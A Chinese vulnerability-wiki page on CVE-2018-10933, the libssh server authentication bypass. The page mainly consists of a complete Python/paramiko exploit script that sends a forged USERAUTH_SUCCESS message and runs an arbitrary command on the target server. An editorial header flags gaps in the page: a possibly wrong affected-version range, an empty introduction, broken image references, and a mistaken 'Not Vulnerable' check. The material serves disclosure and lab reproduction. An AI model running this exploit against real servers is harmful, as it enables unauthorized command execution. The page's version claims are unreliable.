

# （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响server-side状态机，命令执行取决于上层SSH应用
- 证据范围：与92同一完整脚本，无独立分析；版本写0.7.6之前和0.8.4缺少后者之前限定，可能把修复版列为影响版

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 精确0.7/0.8分支边界须按官方公告规范
- 代码首行裸文件名若复制为程序会语法错误，应移出围栏
- 图片残尾；简介空白
- SSHException=>Not Vulnerable错误判据同92

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

二、漏洞影响
------------

libssh的server-side state machine 0.7.6之前版本和0.8.4

三、复现过程
------------

    CVE-2018-10933.py
    #!/usr/bin/env python3
    import sys
    import paramiko
    import socket
    import logging

    logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
    bufsize = 2048

    def execute(hostname, port, command):
        sock = socket.socket()
        try:
            sock.connect((hostname, int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            client = transport.open_session(timeout=10)
            client.exec_command(command)

            # stdin = client.makefile("wb", bufsize)
            stdout = client.makefile("rb", bufsize)
            stderr = client.makefile_stderr("rb", bufsize)

            output = stdout.read()
            error = stderr.read()

            stdout.close()
            stderr.close()

            return (output+error).decode()
        except paramiko.SSHException as e:
            logging.exception(e)
            logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
        except socket.error:
            logging.debug("Unable to connect.")

        return None

    if __name__ == '__main__':
        print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

使用python3执行，即可在目标服务器上执行任意命令：

Libssh服务端权限认证绕过漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/libssh/CVE-2018-10933/
